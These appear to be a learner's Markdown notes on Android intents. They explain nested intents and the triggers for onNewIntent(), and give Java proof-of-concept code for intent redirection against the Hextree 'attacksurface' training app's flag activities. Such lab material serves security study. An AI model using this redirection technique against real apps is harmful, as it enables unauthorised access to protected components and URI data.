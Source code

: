 # Intents

- [Interaction with Intents](#interaction-with-intents)
- [Activity Life Cycle](#activity-life-cycle)
- [Attacks](#attacks)
    - [Intent Redirection](#intent-redirection)


## Interaction with Intents
- **Commands to interact with intents**
    - `intent.setClassName(<Package_Name>,<Class_Name>);`
    - `startActivity(<Intent_Name>)`
    - `<Intent_Name>.setAction(<Action_Name>)`

- **Nested Intents**
```java
Intent intent3 = new Intent();
intent3.putExtra("reason","back");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

## Activity Life Cycle

- Scenarios When `onNewIntent()` Is Triggered
    1. Activity Launched with `FLAG_ACTIVITY_SINGLE_TOP`:
        - If the activity is already running at the top of the back stack, and a new intent is sent to it with the `Intent.FLAG_ACTIVITY_SINGLE_TOP` flag, the system calls `onNewIntent()` instead of creating a new instance of the activity.
    2. Activity Configured with `launchMode="singleTop"`:

        - If the activity is declared in the `AndroidManifest.xml` file with the launchMode attribute set to `singleTop`, the system calls `onNewIntent()` when the activity is already at the top of the stack and receives a new intent.
        ```xml
        <activity
            android:name=".YourActivity"
            android:launchMode="singleTop" />
        ```

    3. Activity Declared as `singleTask` or `singleInstance`:

        - For activities declared with `launchMode="singleTask"` or `launchMode="singleInstance"`, `onNewIntent()` is called when the activity is already running in a task and a new intent is directed to it.
    4. Task Reuse (`Intent.FLAG_ACTIVITY_REORDER_TO_FRONT`):

        - If you launch an activity that is already in the back stack of the current task using the `FLAG_ACTIVITY_REORDER_TO_FRONT` flag, the system brings it to the front and calls `onNewIntent()`.

## Attacks
### Intent Redirection
- If we can control the intent input of the startActivity() function, it may lead to an intent redirection vulnerability.
```java
// Redirect to flag6 Activity
Intent intent3 = new Intent();
intent3.putExtra("reason","next");
intent3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag6Activity");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

> [!NOTE]
> `FLAG_GRANT_READ_URI_PERMISSION`: If set, the recipient of this Intent will be granted permission to perform read operations on the URI in the Intent's data and any URIs specified in its ClipData.